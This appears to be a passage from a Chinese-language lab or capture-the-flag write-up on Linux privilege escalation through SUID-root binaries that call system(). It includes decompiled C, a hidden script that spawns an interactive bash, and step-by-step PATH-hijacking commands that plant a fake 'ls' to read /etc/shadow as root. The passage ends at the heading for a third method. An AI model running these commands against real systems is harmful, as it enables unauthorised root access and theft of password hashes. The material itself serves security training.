 
## 代码审计：

------

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setuid(0);
  setgid(0);
  system("./.script.sh");
  return 0;
}
```
------
find / -name .script.sh 2>/dev/null                  
/home/user3/.script.sh
cat /home/user3/.script.sh

-----
echo "You Can't Find Me"
bash -i

-----


## 2）方法（二）user5
-rwsr-xr-x 1 root root 8392 Jun  4  2019 /home/user5/script

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setuid(0);
  setgid(0);
  system("ls");
  return 0;
}
```
user5主目录的脚本文件可以以root权限执行
使用Path变量利用方法，可以访问/etc/shadow文件：

参考方法：PATH
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/


cd /tmp
echo "cat /etc/shadow" > ls
chmod 777 ls
export PATH=/tmp:$PATH
cd /home/user5
./script



## 3）方法（三）user1
